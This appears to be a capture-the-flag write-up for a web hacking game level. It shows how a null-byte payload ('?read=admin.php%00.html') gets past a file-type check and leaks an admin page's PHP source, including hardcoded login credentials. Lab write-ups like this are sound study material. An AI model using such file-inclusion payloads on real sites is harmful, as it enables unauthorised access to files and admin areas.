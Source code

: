 #### Level 08 - The poet

The first thing we see is that files is included raw from the URL.

At the admin page, the URL looks like this:
http://www.hacmegame.org/hacmegame/challenges/ChallengeS30.html?include=admin.php

At the other pages, the URL looks like this:
http://www.hacmegame.org/hacmegame/challenges/ChallengeS30.html?read=poem3.html

So why not try ?read=admin.php

"Illegal file type - I don't like you." Ups :/

Smells like poison nullbyte, so lets try this then: ?read=admin.php%00.html

```php
<?php

session_start();
if ($_SESSION['authenticated'] || $_POST['username'] == 'brezhnev' && $_POST['password'] == 'c2SIdZX5') {
   $_SESSION['authenticated'] = true;
   printAdminForm();
} else {
   printLoginForm();
}

?>
```

Yeap. That easy.

To read more about poison nullbyte: http://insecure.org/news/P55-07.txt
